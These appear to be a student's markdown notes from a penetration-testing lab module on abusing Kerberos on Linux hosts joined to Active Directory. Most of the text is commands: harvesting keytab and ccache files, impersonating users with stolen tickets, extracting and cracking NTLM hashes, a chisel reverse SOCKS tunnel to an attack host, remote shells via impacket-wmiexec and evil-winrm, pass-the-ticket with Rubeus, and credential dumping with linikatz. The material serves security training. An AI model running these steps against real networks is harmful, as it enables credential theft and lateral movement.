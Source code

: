
>Although not common, Linux computers can connect to Active Directory to provide centralized identity management and integrate with the organization's systems, giving users the ability to have a single identity to authenticate on Linux and Windows computers.

> A Linux computer connected to Active Directory commonly uses Kerberos as authentication. Suppose this is the case, and we manage to compromise a Linux machine connected to Active Directory. In that case, we could try to find Kerberos tickets to impersonate other users and gain more access to the network.

---

#### Linux Auth via Port Forward

```
$ ssh david@inlanefreight.htb@10.129.204.23 -p 2222
```

#ssh #port_forwarding

	 realm - Check If Linux Machine is Domain Joined

```
$ realm list
```

#realm

	 PS - Check if Linux Machine is Domain Joined

```
$ ps -ef | grep -i "winbind\|sssd"
```

#ps 
## Finding Keytab Files

	 Using Find to Search for Files with Keytab in the Name

```
$ find / -name *keytab* -ls 2>/dev/null
```

#find

	 Identifying Keytab Files in Cronjobs

```
$ crontab -l
```

#crontab 

## Finding ccache Files


	 Reviewing Environment Variables for ccache Files.

```
$ env | grep -i krb5
```

	  Searching for ccache Files in /tmp

```
$ ls -la /tmp
```

#ccache

## Abusing KeyTab Files

	  Listing keytab File Information

```
$ klist -k -t 
```

	 Impersonating a User with a keytab

```
$ klist 
```

```
$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```

```
$ klist 
```

#keytab 
#### Connecting to SMB Share as Carlos

```
$ smbclient //dc01/carlos -k -c ls
```

```
$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```

   >The most straightforward hash to crack is the NTLM hash. We can use tools like [Hashcat](https://hashcat.net/) or [John the Ripper](https://www.openwall.com/john/) to crack it. However, a quick way to decrypt passwords is with online repositories such as [https://crackstation.net/](https://crackstation.net/), which contains billions of passwords.

#smbclient #keytab 
#### Looking for ccache Files

```
$ ls -la /tmp
```

		 Identifying Group Membership with the id Command

```
$id julio@inlanefreight.htb
```

#### Importing the ccache File into our Current Session

```
root@linux01:~# klist
```

```
$ cp /tmp/krb5cc_647401106_I8I133 .
$ export KRB5CCNAME=/root/krb5cc_647401106_I8I133
$ klist
```

```
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
```

#kerberos #smbclient 

## Using Linux Attack Tools with Kerberos

		 Host File Modified

```
$ cat /etc/hosts
```

		 Proxychains Configuration File

```
$ cat /etc/proxychains.conf
```

		 Download Chisel to our Attack Host

```
$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
```

#github

```
$ gzip -d chisel_1.7.7_linux_amd64.gz
```

```
$ mv chisel_* chisel && chmod +x ./chisel
```

```
$ sudo ./chisel server --reverse 
```


		 Connect to MS01 with xfreerdp

```
$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

#xfreerdp 

		Execute chisel from MS01

```c
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```

#chisel 
#### Setting the KRB5CCNAME Environment Variable

```
$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

#kerberos 
#### Using Impacket with proxychains and Kerberos Authentication

```
$ proxychains impacket-wmiexec dc01 -k
```

#impacket #impacket_wmiexec

### Evil-Winrm

>To use [evil-winrm](https://github.com/Hackplayers/evil-winrm) with Kerberos, we need to install the Kerberos package used for network authentication. For some Linux like Debian-based (Parrot, Kali, etc.), it is called `krb5-user`. While installing, we'll get a prompt for the Kerberos realm. Use the domain name: `INLANEFREIGHT.HTB`, and the KDC is the `DC01`.

		 Installing Kerberos Authentication Package

```
$ sudo apt-get install krb5-user -y
```

#evil-winrm #kerberos 
#### Kerberos Configuration File for INLANEFREIGHT.HTB

```
$ cat /etc/krb5.conf
```

#kerberos 
#### Using Evil-WinRM with Kerberos

```
$ proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

#proxychain #evil-winrm 
#### Impacket Ticket Converter

```
$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```

#impacket #impacket_ticketConverter
#### Importing Converted Ticket into Windows Session with Rubeus

```c
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```

#rebeus 
## Linikatz

> [Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory. In other words, Linikatz brings a similar principle to `Mimikatz` to UNIX environments.

```
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
```

#github 

```
$ /opt/linikatz.sh
```

#linikatz
